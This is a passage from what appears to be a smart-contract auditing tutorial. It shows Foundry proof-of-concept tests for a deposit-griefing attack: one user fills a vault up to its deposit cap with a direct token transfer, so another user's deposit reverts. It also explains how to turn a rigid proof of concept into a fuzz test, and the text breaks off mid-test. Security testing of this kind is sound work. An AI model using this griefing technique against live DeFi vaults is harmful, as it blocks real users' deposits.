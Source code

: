 ```solidity
        vm.expectRevert(abi.encodeWithSelector(ERC4626Upgradeable.ERC4626ExceededMaxDeposit.selector,userB,assetminusfee,0));
        marketMakingEngine.deposit(fuzzVaultConfig.vaultId, 1e18, 0, "", false);
        vm.stopPrank(); 

        
    }
```

Just looking at this test, it works perfectly and proves the attack but if you look at the amount user B deposits into the vault , it is hardcoded as 1e18 which is fine but what that does is that the test only runs for a single amount to deposit and yes it works but this is known as a limiting POC. It does not open any doors for me to find any other exploits as I have made the test very rigid. This is something you need to watch out for. You need to learn to expand the range of your POC to where you are aiming for the same end result BUT you expand the range of the POC's by either checking variables changed due to the functions you are calling or/and implementing random values. This is how I expanded the range of the POC to potentially help me find more bugs. this is from deposit.t.sol:

```solidity
 function test_griefingdeposits(
        uint256 vaultId,
        uint256 amount
    )
        external
    {
        VaultConfig memory fuzzVaultConfig = getFuzzVaultConfig(vaultId);
       
        //c user who will grief deposits
        address userA = users.naruto.account;
        deal(fuzzVaultConfig.asset, userA, 100e18);
        

        //c user trying to deposit into vault
        address userB = users.sasuke.account;
        deal(fuzzVaultConfig.asset, userB, 100e18);
     

        //c get deposit cap of vault
        uint128 depositCap = vaultsConfig[fuzzVaultConfig.vaultId].depositCap;
       

        //c get the deposit fee of the vault
        uint128 depositFee = uint128(vaultsConfig[fuzzVaultConfig.vaultId].depositFee);

        

         amount =bound(amount, calculateMinOfSharesToStake(fuzzVaultConfig.vaultId), fuzzVaultConfig.depositCap / 2);
        //c get assets sent to vault index token 
         uint128 depositfeeforamount = uint128(amount)*depositFee/1e18;
        uint256 assetminusfee = amount - uint256(depositfeeforamount);
         

        //c attempt to grief deposits
        vm.startPrank(userA);
        IERC20(fuzzVaultConfig.asset).transfer(fuzzVaultConfig.indexToken, depositCap);
        vm.stopPrank();


        //c check totalassets of vault
        uint256 totalAssets = IERC4626(fuzzVaultConfig.indexToken).totalAssets();
        console.log(totalAssets);

        //c user attempts to deposits into vault
```